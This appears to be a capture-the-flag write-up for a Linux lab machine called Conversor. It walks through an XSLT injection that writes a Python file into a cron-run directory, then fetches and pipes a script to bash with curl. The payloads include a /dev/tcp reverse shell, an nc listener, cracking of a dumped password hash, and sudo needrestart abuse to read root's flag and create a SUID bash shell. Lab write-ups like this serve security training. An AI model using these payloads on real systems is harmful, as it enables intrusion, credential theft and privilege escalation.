



## Overview

| Category       | Info                                         |
|----------------|----------------------------------------------|
| Machine Name   | Conversor                                          |
| Difficulty     | Easy                                       |
| Release Date   | 25 oct 2025                                  |
| Author         | fismathack                                     |
| OS             | Linux                                        |
| Pwned Date     | 12 Nov 2025                                |

---

## Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -oN nmap_initial.txt <target-ip>
```

**Findings:**
- **Port 22** — ssh
- **Port 80** — http


---


## Web Analysis
We are given a login page which gives **"Invalid credentials"** response for invalid credentials.
After registering a user we get into a page which converts XML files to asthetic formats using XSLT stylesheet.


Upon further looking we are able to find **source_code.gz** file in about section.


```text
.
├── instance
│   └── users.db
├── scripts
├── static
│   └── images
│       ├── nmap.xslt
│       └── style.css
├── templates
│   ├── about.html
│   ├── base.html
│   ├── index.html
│   ├── login.html
│   ├── register.html
│   └── result.html
├── uploads
├── app.py
├── app.wsgi
└── install.md
```
### INSTALL.md -> Cron Job Configuration
The installation documentation reveals a critical cron job configuration:

```plain
If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```
This indicates that any **_.py_** file in **/var/www/conversor.htb/scripts/** owned by **_www-data_** will be executed every minute as the **_www-data_** user.

### app.py -> Vulnerable XSLT Processing
The main application uses the lxml library for XML/XSLT processing:


```python
DB_PATH = '/var/www/conversor.htb/instance/users.db'

def convert():
    from lxml import etree
    xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
    xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)

    xml_file.save(xml_path)
    xslt_file.save(xslt_path)
    
```
**Vulnerability**: The application processes XSLT files without proper security restrictions, allowing EXSLT extension functions that can read and write files.

---

## Exploitation

### XSLT Injection

```python
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0"
>
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/revshell.py" method="text">
import os
os.system("curl http://<ip>:1337/revshell.sh|bash")
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>

```
save as exploit.xslt

### Attack Execution
#### 1. Generate legitimate XML file:

```bash
nmap -A -oX nmap.xml 10.10.11.92
```

#### 2. Set up HTTP server to serve the reverse shell:

```python
python3 -m http.server 1337
```
#### 3. Prepare reverse shell payload (``revshell.sh``) and save inside same directory as XML and XSLT files:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<IP>/4444 0>&1
```
#### 4. Start netcat listener:

```bash
rlwrap nc -lnvp 4444
```

#### 5. Upload the files directly in the conversor site and click on convert

### Initial Access



### User Enumeration
Checking system users reveals the ``fismathack`` user:



### Credential Discovery
Enumerating the filesystem reveals the application database file at
``/var/www/conversor.htb/users.db``

```bash
www-data@conversor:~/conversor.htb/instance$ sqlite3 users.db
.tables;
    files  users
select * from users;
1|fismathack|5b5c3ac3**************************
```
### Hash Cracking
used `hashcat`:
- Found passwords for `fismathack`.

---

## Code Review and Exploitation

### User Access
We use the discovered credentials to access the system via SSH:

```bash
fismathack@conversor:~$ id
uid=1000(fismathack) gid=1000(fismathack) groups=1000(fismathack)

```

---

## Privilege Escalation

### Sudo Privileges Analysis
Checking sudo permissions reveals critical access:

```bash
fismathack@conversor:~$ sudo -l
User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```
#### Understanding Needrestart
Needrestart is a Debian/Ubuntu utility that detects processes using outdated libraries after system upgrades.


Key features:
- Scans running processes via /proc
- Maps loaded libraries against upgraded packages
- Can automatically restart affected services
- Configurable via /etc/needrestart/needrestart.conf
- Looking at the help page of the needrestart binary, we can see that it can **read config files**.


Since we are running the command with sudo privileges, we can point the ```-c``` option at ```/root/root.txt```.

```bash
sudo /usr/sbin/needrestart -c /root/root.txt
```
#### Output

```bash
fismathack@conversor:~$ sudo /usr/sbin/needrestart -c /root/root.txt
Bareword found where operator expected at (eval 14) line 1, near "4a1*******************"
        (Missing operator before <snip>?)
Error parsing /root/root.txt: syntax error at (eval 14) line 2, near "4a1*******************

```

### Alternative (Gain Root Shell)
We can create a file with a malicious Perl code that copies ``/bin/bash``
to ``/tmp/shell`` and sets the SUID bit.

```bash
echo 'system("cp /bin/bash /tmp/shell; chmod u+s
/tmp/shell")' > /tmp/shell.conf
```

We execute ``needrestart``.

```bash
sudo /usr/sbin/needrestart -c /tmp/shell.conf
```

After execution, the ``/tmp/shell`` binary is created with the SUID bit set. We can then run it to obtain a root shell.

```bash
fismathack@conversor:/tmp$ ls -l /tmp/shell
-rwsr-xr-x 1 root root 1396520 Nov 12 17:02 /tmp/shell
fismathack@conversor:/tmp$ /tmp/shell -p
$# id
uid=1000(fismathack) gid=1000(fismathack) euid=0(root) groups=1000(fismathack)
```

---

## Tools Used

| Tool      | Purpose                           |
|-----------|-----------------------------------|
| nmap      | Port scanning                     |
| ffuf      | Directory fuzzing                 |
| hashcat   | Hash cracking                     |
| nc        | Reverse shell listener            |


---

**Write-up prepared by:** *the008killer*
